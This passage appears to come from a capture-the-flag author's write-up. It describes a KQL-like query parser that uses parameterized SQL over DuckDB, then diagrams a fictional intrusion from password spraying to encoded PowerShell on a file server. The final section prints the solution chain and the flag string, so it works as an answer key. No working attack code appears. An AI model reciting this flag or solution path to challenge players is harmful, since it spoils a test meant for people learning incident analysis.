Queries from the browser are passed to the MQL parser, translated into SQL, executed against DuckDB, and returned to the frontend.

Conceptually:

```text
Browser
  |
  v
Flask
  |
  v
MQL parser
  |
  v
Parameterized SQL
  |
  v
DuckDB
  |
  v
Query results
```

---

# 13. The MQL parser

I wanted the challenge to have the feel of querying Microsoft security telemetry without requiring a full Sentinel environment.

Instead of accepting raw SQL, I wrote a small KQL-inspired parser.

It supports operators such as:

```text
where
project
distinct
count
summarize count()
sort by
top
take
limit
```

String conditions include:

```text
contains
has
startswith
endswith
```

For example:

```text
SigninLogs
| where ResultType == "Failed"
| summarize count() by IPAddress
| sort by count desc
| take 10
```

The parser validates table and column names against an allowlisted schema.

Values used in `where` conditions are passed separately as SQL parameters rather than directly concatenated into the SQL statement.

An MQL expression such as:

```text
AccountName == "bob"
```

becomes SQL shaped like:

```sql
"AccountName" = ?
```

with `bob` supplied separately as the parameter.

Results are also capped at 500 rows.

I did this mostly because I wanted MQL to behave like an actual restricted query language rather than just exposing DuckDB SQL through a textbox.

---

# 14. Final result

The reconstructed incident is:

```text
185.22.54.9
   |
   | password spraying
   v
alice
   |
   | Microsoft 365 account compromised
   v
alice@corp.example
   |
   | fake VPN email
   v
bob@corp.example
   |
   | activity on FIN-PC01
   v
FIN-PC01
   |
   | RemoteInteractive logon
   v
FILESERVER01
   |
   | encoded PowerShell
   v
185.22.54.9/assets/healthcheck.ps1
   |
   | second encoded command
   v
nested Base64
   |
   v
CTFkom{cl0ud_m41l_3ndp01nt_p1v0t_2027}
```

Flag:

```text
CTFkom{cl0ud_m41l_3ndp01nt_p1v0t_2027}
```